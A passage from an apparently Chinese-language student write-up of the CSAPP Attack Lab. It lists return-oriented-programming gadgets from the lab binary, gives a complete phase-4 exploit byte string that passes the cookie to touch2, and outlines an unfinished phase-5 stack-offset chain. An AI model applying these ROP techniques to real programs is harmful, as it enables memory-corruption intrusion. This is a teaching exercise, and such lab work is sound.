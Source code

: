401a48:58 c3  pop    %rax  ret:
```c
0000000000401a46 <setval_468>:
  401a46:	c7 07 58 90 90 c3    	movl   $0xc3909058,(%rdi)
  401a4c:	c3 
```
401a56:48 89 c7 90 c3               	mov    %rax,%rdi nop ret
```c
0000000000401a54 <addval_278>:
  401a54:	8d 87 48 89 c7 90    	lea    -0x6f3876b8(%rdi),%eax
  401a5a:	c3   
```

先调用 401a48 地址下的 pop    %rax 取出栈里下一行的cookie ， 然后ret返回
再调用 401a56 地址下的 mov    %rax,%rdi 将cookie值传入寄存器edi中 ，nop 是不做任何操作 ， 然后ret返回
最后调用touch2()函数完成攻击。

答案就是:
```txt
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
48 1a 40 00 00 00 00 00
34 62 8d 4f 00 00 00 00
56 1a 40 00 00 00 00 00
77 18 40 00 00 00 00 00
```

### phase5
确定最终目标:
```c
mov <字符串地址>  , %rdi
```
因为加上了栈随机，所以可以根据栈顶地址玩偏移。
现成的偏移函数:
```c
0000000000401a6f <add_xy>:
  401a6f:	48 8d 04 37          	lea    (%rdi,%rsi,1),%rax
  401a73:	c3 
```

所以现在要的目标为:
```c
mov %rsp,%rdi // 找到了
mov <偏移量>,%rsi
call 401a6f <add_xy>
mov %rax,%rdi  // 找到了
<cooki字符串>
```

先找出可能有用的汇编代码:
```c
401ac6:48 89 e0 c3 mov %rsp,%rax ,ret
401a56:48 89 c7 90 movq %rax,%rdi,ret
401a5d:58 c3 pop %rax , ret
401aa1:96 XCHG   %esi,%eax
401a56:48 89 c7 90 movq %rax,%rdi,ret
```
组合一下
```c
401ac6:48 89 e0 c3 mov %rsp,%rax ,ret
401a56:48 89 c7 90 movq %rax,%rdi,ret
401a5d:58 c3 pop %rax , ret
<偏移量>
401aa1:96 XCHG   %esi,%eax
call 401a6f <add_xy>
```